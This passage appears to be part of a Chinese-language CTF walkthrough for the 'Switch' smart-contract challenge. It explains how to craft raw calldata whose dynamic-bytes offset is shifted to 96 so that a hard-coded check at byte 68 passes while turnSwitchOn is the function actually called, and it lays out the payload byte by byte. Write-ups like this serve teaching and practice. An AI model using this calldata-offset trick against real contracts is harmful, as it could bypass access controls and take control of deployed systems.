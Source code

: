 正如你在本例中看到的，在偏移量的帮助下，你可以将数据内容（长度和值）移动到地址参数（to）之后。



## 解决方案

在`Switch`合约中，对`calldata`的检查是以硬编码值**68**的位置进行的。

因此，解决方案是把需要检查的数据移动到偏移位置 68。



**开始解题：**

我们先获取3 个函数： **flipSwitch**、**turnSwitchOn**和**turnSwitchOff** 的选择器，可以使用[Chaintool 选择器工具](https://chaintool.tech/querySelector)： 



![chaintool - 函数选择器查询](https://img.learnblockchain.cn/pics/20230818170808.png!lbclogo)



 **flipSwitch**、**turnSwitchOn**和**turnSwitchOff** 的选择器分别是`0x30c13ade`  `0x76227e12`   `0x20606e15`。



关于动态类型的Calldata编码， **需要记住的细节是**：

1. 存在偏移量（偏移量是Calldata中动态类型的实际数据开始的位置）
2. 通过更改偏移量，可以操作 calldata 数据的的起始位置

**解决方案：**

```javascript
await sendTransaction({from: player, to: contract.address, data:"0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000"})
```

**数据说明：**

```
flipSwitch 函数:
30c13ade

offset, 现在是 96 个字节: 
0000000000000000000000000000000000000000000000000000000000000060 

额外的填充字节:
0000000000000000000000000000000000000000000000000000000000000000 

第 68 个字节的数据，进用于通过 onlyOff 检查:
20606e1500000000000000000000000000000000000000000000000000000000

数据长度:
0000000000000000000000000000000000000000000000000000000000000004 

将从我们的函数调用的数据，包含 turnSwitchOn 函数选择器
76227e1200000000000000000000000000000000000000000000000000000000 
```
